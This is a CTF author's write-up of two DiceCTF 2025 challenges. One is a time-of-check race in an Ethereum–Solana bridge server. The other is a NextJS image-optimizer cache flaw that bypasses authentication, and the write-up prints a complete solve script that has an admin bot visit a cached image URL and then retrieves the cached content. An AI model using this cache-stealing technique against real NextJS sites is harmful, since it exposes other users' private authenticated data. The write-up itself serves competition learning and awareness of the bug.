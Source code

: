 ```yaml
---
title: "DiceCTF 2025 Quals Author Writeups"
description: "ft. cursed Solana code and a minor NextJS auth-bypass bug"
date: "2025-03-30"
---
```


#### DiceCTF 2025 Quals
# Author Writeups
by Arc'blroth

I wrote challenges for DiceCTF for the first time this year, and I had a fun time doing so!
Somehow all three of my challenges managed to come out a lil' cursed - but our curve _is_ optimized for low solves, so it worked out in the end.

Besides the (hopefully obvious) Celeste themeing, a consistent theme from this set of challs was racing the clock on remote. The first solutions
many players thought of - and the first solution I myself implemented - to both `pwn/r2uwu2s-resort` and `misc/golden-bridge` are too slow under
real-world network conditions. I might have been a bit _too_ harsh on the timeouts though...

So here are some thoughts on `misc/golden-bridge` and `web/old-site-b-side`, the two "medium"-difficulty challenges I wrote.

# misc/golden-bridge

> Introducing `$BBL` - a smooth revolution in cross-chain defi technology!
>
> Though we haven't gotten back our audit results yet, we believe in the future of Bubble so much that we've decided to shadow-launch it today!
>
> Grab your 10 free `$FTH`s from the airdrop (while supplies last), and remember to watch out for the wind...
>
> **Please do not deploy this challenge until you have a working solution locally.**

Given that DiceCTF 2025 Quals was sponsored by _both_ Zellic and Ottersec, we definitely needed an obligatory blockchain challenge.
golden-bridge was my answer to that - a challenge involving not one, but _two_ blockchains!

> If you're wondering why there's a giant "do not instance until ready" sign, that's because this
> challenge is configured to use a whopping _2 GB_ of memory on remote. Yikes!
>
> It turns out that `solana-test-validator` physically cannot run with less than 1.5 GB of memory,
> and continues to eat up more memory as more slots get processed. There doesn't seem to be any
> real diversity in (stable) Solana validators as of writing this challenge - I would have happily
> used a less memory-hungry validator if one existed...

Something I felt that I had not seen in recent blockchain challenges was _off-chain_ blockchain code. The real-world industry has built
up a huge amount of supporting "web2" infrastructure that reads and writes to the blockchain. But if [web3isgoinggreat](https://www.web3isgoinggreat.com/)
is any good indication, that "web2" code is no less buggy than the web3 code it supports!

Of course then, the vulnerability in golden-bridge lies in neither the Ethereum smart contract code (which does have some sus code such as not checking
the return value of `transferFrom`) nor in the Solana code. Instead, there are two related vulns in the bridge server code at `bridge/app.py`,
neither of which (I hoped) would be obvious at first glance. To quote my [solve script](https://github.com/dicegang/dicectf-quals-2025/blob/main/misc/golden-bridge/solve/solve.py):

> The crux of this solve script is a TOCTOU in `toEth` between solana.py reading data at
> the `Finalized` commitment level whilst sending new transactions without waiting for
> that level of commitment.
>
> Both the Ethereum and Solana blockchain calls in app.py return before the corresponding
> transactions have actually been reflected on-chain. This can be abused on the Ethereum
> side by racing `Bridge.withdraw` and `GET /toSol`, and on the Solana side by calling
> `GET /toEth` repeatedly. While the Ethereum-side exploit is feasible locally, it has a
> low chance of success and doesn't really work on remote - geth is just too dang fast!
> Instead, this solve script uses the TOCTOU on the Solana side, taking advantage of the
> slow time-to-finalization with the default solana-test-validator settings.

Coming from Ethereum, my own first attempt to solve this challenge was to frontrun the `Bridge.withdraw` method on the Ethereum side.
It turns out that this is basically impossible to do on remote due to network latency and the fact that `geth --dev` by default mines
as soon as it has a new transaction. Luckily, it turns out that the default settings for `solana.py` are no more secure than the default
settings for `web3.py` - by default, `solana.py` _reads_ data at the `Finalized` committment model but returns from sending a transaction
as soon as the RPC node accepts it. The idea that you can make a RPC call that might get revoked later isn't specific to the blockchain,
but is definitely different from how I usually think about concurrency on the web!

Writing golden-bridge was actually my first time writing Solana - huge huge shoutout to both @Aplet123 and @NotDeGhost for
helping me write and test this challenge! Coming from Ethereum, a lot of Solana's terminology and design seemed rather foreign:
it took me quite some time to get used to the idea of storing data in small PDA "accounts" rather than at some 32-byte offset 
within a single smart-contract's address. There are definitely upsides to Solana's model though - notice how in `app.py` the
bridge pays for the Ethereum transaction but the user pays for the Solana ones!

<small>And now that I know Solana, expect more cursed cross-blockchain challenges from me in the future...</small>

# web/old-site-b-side

> Old Site (Red Moonrise Mix)
>
> Music by CursedCTF 2023 Authors
>
> DiceCTF 2025 Quals

Both LA CTF 2025's [`web/old-site`](https://github.com/uclaacm/lactf-archive/tree/main/2025/web/old-site) and this challenge were inspired by strellic's corCTF 2024 challenge [`web/repayment-pal`](https://github.com/Crusaders-of-Rust/corctf-2024-public-challenge-repo/tree/master/web/repayment-pal). And if the events of last week are anything to go by, NextJS still has more 0-days to give...

While researching the original `web/old-site`, I looking through the NextJS repo for interesting calls to `fs.readFile` and `fs.writeFile` and found a _really_ sus pair
in [`image-optimizer.ts`](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/image-optimizer.ts#L328). It turns out
that these calls aren't actually vulnerable though - NextJS "sanitizes" the components of the cache filename using base64url encoding, so this can't be used to get
arbitrary file read. But if we dare to look a little bit up the call stack, we start to have some questions.

`imageOptimizer` is invoked across two blocks of code in `next-server.ts`: at [`handleNextImageRequest`](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/next-server.ts#L812) and [`imageOptimizer`](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/next-server.ts#L591) (Vercel this is terrible variable naming). Crucially, neither of these functions care about the existence
of authentication middleware - they will make an "internal" request with the same cookies as the current request and cache the response as long as it
succeeds. (Note that the image optimizer is not run in "minimal mode", Vercel's term for their serverless thing.) If you can convince someone to look
at what is seemingly their own image, you then have 60 steals to steal it from the same URL, as long as you use [the same `Accept:` header](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/image-optimizer.ts#L277)!

Thus, here's the solve script for this challenge in its entirety (run with `deno --allow-net`):

```js
const REMOTE = "http://localhost:3000"
const CACHE_URL = `/_next/image?url=/api/me/badge&w=96&h=96&q=100`

const sleep = ms => new Promise(r => setTimeout(r, ms))

console.log(
  await (
    await fetch(`${REMOTE}/api/report`, {
      method: "POST",
      body: `HACKER+IP=${encodeURIComponent(`http://localhost:3000${CACHE_URL}`)}`,
      headers: [["Content-Type", "application/x-www-form-urlencoded"]]
    })
  ).text()
)

await sleep(6_000)

const gif = new TextDecoder("ascii", { fatal: false }).decode(
  await (
    await fetch(`${REMOTE}${CACHE_URL}`, {
        headers: [["Accept", "image/webp"]]
    })
  ).arrayBuffer()
)
console.log(gif.substring(gif.indexOf("dice{"), gif.length))
```

I'm not sure if this counts as a NextJS 0-day or not, since it is decently contrived.
But it is an interesting auth bypass in real-world software, and maybe a good reminder to check _every_ endpoint in your app for vulnerabilties - not just the ones you've defined yourself :D
